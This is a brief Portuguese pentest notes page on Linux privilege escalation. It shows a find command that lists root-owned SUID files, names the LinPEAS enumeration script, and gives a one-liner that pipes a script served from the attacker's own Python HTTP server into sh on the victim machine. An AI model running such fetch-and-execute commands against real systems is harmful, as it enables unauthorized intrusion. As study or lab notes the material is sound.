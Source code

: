 ```yaml
---
{"dg-publish":true,"permalink":"/pentest/priv-escalation/comando-para-conseguir-os-shadowers/"}
---
```


comando para conseguir os shadowers 
```shell
find / -user root -perm -4000 -exec ls -ldb {} \;
```

Há um script chamado LinPEAS que consegue achar escalamentos de privilégios dentro de uma máquina



## Inicie o Python server dentro da sua máquina e não na máquina da vitima 

**curl 10.8.3.128:801/linpeas.sh | sh**

```shell
sudo python -m http.server 801
[[Pentest/Priv. Escalation/Comando para conseguir os shadowers\|Comando para conseguir os shadowers]]